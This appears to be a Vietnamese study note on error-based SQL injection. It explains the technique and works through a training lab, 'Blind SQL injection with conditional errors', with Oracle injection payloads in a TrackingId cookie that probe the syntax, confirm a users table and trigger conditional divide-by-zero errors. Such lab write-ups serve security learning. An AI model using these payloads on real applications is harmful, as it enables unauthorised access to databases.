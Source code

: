 - **SQL Injection dựa trên lỗi (Error-based SQL injection)**
Là kỹ thuật lợi dụng thông báo lỗi từ cơ sở dữ liệu để trích xuất hoặc suy luận dữ liệu nhạy cảm, kể cả trong trường hợp mù.
  + Có thể tạo lỗi dựa vào điều kiện boolean.
  + Hoặc tạo lỗi hiển thị trực tiếp dữ liệu truy vấn, biến blind SQLi thành SQLi hiển thị.
  Ví dụ tạo lỗi có điều kiện bằng CASE:
```
bash
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
> Nếu ứng dụng trả phản hồi khác nhau khi có lỗi, suy ra điều kiện đúng/sai.

**Lab: Blind SQL injection with conditional errors**
1) Kiểm tra xem tham số TrackingId có dễ bị SQL injection không bằng cách tạo lỗi cú pháp SQL bằng thêm ' cuối câu
```
    TrackingId=XsBHVreWLfm3R2QJ'
```
<img width="1495" height="557" alt="image" src="https://github.com/user-attachments/assets/2963978f-6136-45a2-aba1-3f155a443752" />

Gây lỗi cú pháp SQL (SQL syntax error),việc nhận được thông báo lỗi chứng tỏ input đã tác động đến cú pháp truy vấn → khả năng cao là tham số này dễ bị SQLi.

```
    TrackingId=XsBHVreWLfm3R2QJ''
```
<img width="1492" height="784" alt="image" src="https://github.com/user-attachments/assets/92876eda-b90c-4246-8b09-e5e86864b07f" />

> lỗi biến mất → chứng minh rằng lỗi ban nãy là do cú pháp SQL sai chứ không phải lỗi hệ thống khác.

2) Chứng minh tham số dễ bị tấn công

```
    TrackingId=ChejPJijGNFuDRrd'||(SELECT '' FROM dual)||'
```
<img width="1497" height="704" alt="image" src="https://github.com/user-attachments/assets/fcdc141d-1df1-44c1-a0af-64afd33edda9" />
> Xác nhận cơ sở dữ liệu sử dụng là Oracle.
```
    TrackingId=ChejPJijGNFuDRrd'||(SELECT '' FROM not-a-real-table)||'
```
<img width="1487" height="595" alt="image" src="https://github.com/user-attachments/assets/2c950a3d-1156-4544-a3a7-18eafc3c65ec" />
Trả về lỗi => biết được rằng dữ liệu chèn vào được thực thi trong câu lệnh SQL.

3) Xác nhận bảng users tồn tại trong cơ sở dữ liệu
```
    TrackingId=ChejPJijGNFuDRrd'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```
<img width="1479" height="803" alt="image" src="https://github.com/user-attachments/assets/77de35e8-f3cf-4467-8cbf-e0627cb26cea" />
> Bảng user tồn tại 

4) Khai thác điều kiện bằng CASE để tạo lỗi có điều kiện.
```
    TrackingId=oZZ3vis3DjVR0yex'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
<img width="1485" height="617" alt="image" src="https://github.com/user-attachments/assets/fbfb5bb0-5980-42fe-9704-2f7dfc5a53a1" />
→ Có lỗi (chia cho 0).
<img width="1477" height="757" alt="image" src="https://github.com/user-attachments/assets/1510b82b-5673-4d27-9289-ea344624ad9f" />
→ Không lỗi.
> → Điều này chứng minh có thể tạo lỗi dựa trên điều kiện đúng/sai.
